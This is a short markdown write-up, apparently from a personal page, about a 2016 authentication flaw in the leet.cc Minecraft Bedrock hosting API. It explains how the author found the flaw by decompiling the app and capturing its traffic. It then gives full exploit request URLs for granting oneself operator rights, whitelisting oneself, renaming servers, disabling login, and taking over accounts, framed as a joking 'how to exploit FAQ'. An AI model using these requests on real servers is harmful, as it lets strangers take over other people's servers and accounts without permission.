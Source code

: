 ```yaml
---
title: leet.cc account takeover (old bug)
---
```


<https://leet.cc> is an minecraft bedrock server hosting provider.  
The following bug allowed getting OP just by knowing someone's server domain.

This bug is from 2016 the same time they had their database breached <https://www.databreaches.net/leet-cc-data-hacked-in-february-publicly-dumped/> where someone uploaded a PHP shell to their website... This is from memory I may get stuff wrong.

I would hope it's fixed now 🙂but then this is `leet.cc`.

# Methodology
Reverse engineer the Android app using online apk decompilers and look at the network traffic using <https://www.telerik.com/fiddler> to see if the API did authentication correctly.  
Credit: <https://www.youtube.com/watch?v=LbZqaLKS7V4>

Server IDs (Incremental number) are used to identify what server to act on for the API.  
This could be gotten easily by using `https://leet.cc/verifyServerDomain.php?domain=<domain>` 
The user ID was the user's email address or their device ID which used to be optional.

# The exploit
In order to exploit this one would make a request to:

`https://mainapi.leet.cc/actionNew.php?cmd=<command>&userID=<userID>&params[]=<serverID>&params[]=<commandParameter>&versionCode=176&password=something_secret&client=google-free&k=<Base 64 encoded MD5 Hash of part of the URL>&sys=<Base 64 encoded MD5 Hash of part of the URL>`
No one knows why `k` and `sys` were there.

And now the how to exploit FAQ 🙂
## I want OP!
- <command> is `changeOP`
- <commandParameter> is Your in-game name
## I'm not whitelisted. What should I do?
- <command> is `changeWhitelistPlayers`
- <commandParameter> is Your in-game name
## The server name is missing a duck emoji, no problem!
- <command> is `changeServerName`
- <commandParameter> is 🦆
## This old login using /login <password> is too annoying.
- Just set `setUserRegistration` to off!

# I wanted an account takeover!
Okay send a request to `https://mainapi.leet.cc/serverLogin.php?serverEmail=<attacker email>&serverPassword=<attacker password>&registerServerID=<serverId>&registerUserID=<userId>`
